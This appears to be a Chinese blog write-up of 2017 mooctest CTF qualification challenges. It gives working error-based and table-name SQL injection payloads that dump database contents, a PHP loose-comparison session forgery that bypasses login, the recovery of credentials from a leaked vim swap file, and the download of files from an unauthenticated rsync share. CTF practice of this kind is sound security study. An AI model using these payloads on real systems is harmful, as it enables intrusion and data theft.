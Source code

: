 ```yaml
---
title: mooctest-writeup
date: 2017-10-05 00:06:26
tags:
  - CTF
  - 信息安全
  - web安全
  - write-up
categories: 信息安全
---
```


做了些ctf的题目，想参加mooctest试试吧，就当锻炼锻炼。这个是平台上的资格测试的题目。

<!-- more -->

## babysql

> 报错都给你了，还不会注入？ 题目地址：<http://114.55.36.69:20680/index.php?table=news&id=3>

根据提示应该是报错注入，选择一个报错函数 直接上吧

```
?table=news&id=3 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
XPATH syntax error: '~errorerror@localhost~'

?table=news&id=3 and (updatexml(1,concat(0x7e,(select database()),0x7e),1))
XPATH syntax error: '~errorerror~'

table=news&id=3 and (updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='errorerror'),0x7e),1))
XPATH syntax error: '~error_flag,error_news~'

?table=news&id=3 and (updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.tables where table_schema='errorerror' and table_name='error_flag'),0x7e),1))
然后并没有爆出字段，而是显示了hacker，看来过滤了column_name
```



在群里问了一声，一个朋友给出了资料

- [sql注入tips【被雨牛和俊杰师傅打开的新世界大门](http://www.wupco.cn/?p=3764)
- [当表名可控的注入遇到了Describe时的几种情况](http://www.yulegeyu.com/2017/04/16/%E5%BD%93%E8%A1%A8%E5%90%8D%E5%8F%AF%E6%8E%A7%E7%9A%84%E6%B3%A8%E5%85%A5%E9%81%87%E5%88%B0%E4%BA%86Describe%E6%97%B6%E7%9A%84%E5%87%A0%E7%A7%8D%E6%83%85%E5%86%B5%E3%80%82/)

了解一番新姿势后，于是里面的payload都给出了

```
?table=news`%23` where 0=extractvalue(1,(select group_concat(0x3a,column_name) from information_schema.columns where table_name='error_flag'))%23`%26id=1&id=3
XPATH syntax error: ':flag_you_will_never_know'
```



详解请看上面的链接，解释的很清楚，学到了一波！
最后再根据字段查询一下，得到flag

```
?table=news&id=3 and (updatexml(1,concat(0x7e,(select `flag_you_will_never_know` from error_flag limit 0,1),0x7e),1))
```



## babylogin

> 很正常的登录逻辑，只是…

```php
<?php
include "config.php";

header("Content-Type:text/html;charset=utf8");
session_start();
if (!empty($_SESSION)&&$_SESSION["login"]==1) {
        header("Location: admin.php"); 
        exit();
    }

foreach (array('_GET','_POST','_COOKIE') as $key) {
    foreach ($$key as $key2 => $value) {
        $_GPC[$key2]=$value;
    }
}
//var_dump($_GPC);exit();
if ($_SERVER["REQUEST_METHOD"]=="GET"){
    echo include "outputtpl.php";
}else if($_SERVER["REQUEST_METHOD"]=="POST"){
    
    $userin=addslashes($_POST["name"]);
    $passin=addslashes($_POST["password"]);
    $session = json_decode(base64_decode($_GPC['__session']), true);
    if (is_array($session)){
        $user = find_user_by_uid($session['uid']);
        if(is_array($user) && $session['hash'] == $user['password']){
            $_SESSION["login"]=1;
            $_SESSION["userin"]=$userin;
            header("Location: admin.php");
            exit();
        }else{
            echo "用户名或密码错误";
        }
    }else{
        $sql = "select password from admin where username='$userin'";
        $row = mysql_fetch_array(mysql_query($sql));
        if($row){
            if($row[$passin]==md5($passin)){
                $_SESSION["login"]=1;
                $_SESSION["userin"]=$userin;
                header("Location: admin.php");
                exit();
            }else{
                echo "用户名或密码错误";
            }
        }else{
            echo "用户名或密码错误";
        }    
    }
}else {
    echo "GET or POST plz!";
}
```

思考一会儿之后，记起 `true == 'string'` 是为真，于是逆向构造下`__session`

```php
$__session = array('uid'=>'1','hash' =>true);
echo base64_encode(json_encode($__session));
```



提交payload，得到flag

```
name=admin&password=password&__session=eyJ1aWQiOiIxIiwiaGFzaCI6dHJ1ZX0=
```



## 编辑器的锅

> login as admin 题目地址：<http://114.55.36.69:20380/login.php>

猜测是vim编辑器吧，访问 `.login.php.swp` 下载到文件，然后cat查看后得到部分源码，格式没排版

```php
echo "GET or POST plz!";}else {    }        echo "用户名或密码错误";    }else{        }            echo "用户名或密码错误";        }else{            exit();            header("Location: admin.php");            $_SESSION["userin"]=$userin;            $_SESSION["login"]=1;        if($passin=="ca1buda0mima7ah4ha"){    if ($userin=="admin94wo"){    $passin=$_POST["password"];    $userin=$_POST["name"];    }else if($_SERVER["REQUEST_METHOD"]=="POST"){EOT;</body></html></div>    </div>                        </form>            </p>                            <p>            </p>                                <button type="submit" class="btn btn-l w-100 primary">登录</button>            <p class="submit">            </p>                <input id="password" name="password" class="text-l w-100" placeholder="密码" type="password">                <label for="password" class="sr-only">密码</label>            <p>            </p>                <input id="name" name="name" placeholder="用户名" class="text-l w-100" autofocus="" type="text">                <label for="name" class="sr-only">用户名</label>            <p>        <form action="" method="post" name="login" role="form" >        <h1>登录</h1>    <div class="typecho-login" ><div class="typecho-login-wrap">        <body class="body-100"></head><link rel="stylesheet" href="res/style.css"><link rel="stylesheet" href="res/grid.css">        <link rel="stylesheet" href="res/normalize.css">        <meta name="robots" content="noindex, nofollow">        <title>用户登录</title>        <meta name="viewport" content="width=device-width, initial-scale=1">        <meta name="renderer" content="webkit">        <meta http-equiv="X-UA-Compatible" content="IE=edge, chrome=1">        <meta charset="UTF-8"><meta http-equiv="content-type" content="text/html; charset=UTF-8"><html class="no-js"><head><!DOCTYPE html><<<EOT    echo if ($_SERVER["REQUEST_METHOD"]=="GET"){    }        exit();        header("Location: admin.php"); if (!empty($_SESSION)&&$_SESSION["login"]==1) {session_start();header("Content-Type:text/html;charset=utf8");<?php%
```



`username=admin94w&password=ca1buda0mima7ah4ha` 提交得flag

## 服务发现

> 虽然代码同步了，但你这个配置…有问题 题目地址：<http://118.178.18.181:20280/>

经狗哥提醒是rsync，于是

```
rsync 118.178.18.181::

source code
```



返回这个内容，但是中间有个空格，那就引号包裹

```
rsync 118.178.18.181::"source code"
drwxr-xr-x        4096 2017/06/14 13:01:20 .
-rw-r--r--          44 2017/06/14 13:01:20 flag.php
-rw-r--r--          26 2017/06/14 13:01:20 index.php

rsync 118.178.18.181::"source code/flag.php" /Users/isky/Desktop
```



[关于rsync](http://www.91ri.org/11093.html)

> rsync(remote synchronize)——Linux下实现远程同步功能的软件，能同步更新两处计算机的文件及目录。在同步文件时，可以保持源文件的权限、时间、软硬链接等附加信息。常被用于在内网进行源代码的分发及同步更新，因此使用人群多为开发人员；而开发人员安全意识薄弱、安全技能欠缺往往是导致rsync出现相关漏洞的根源。
> rsync默认配置文件为/etc/rsyncd.conf，常驻模式启动命令rsync –daemon，启动成功后默认监听于TCP端口873，可通过rsync-daemon及ssh两种方式进行认证。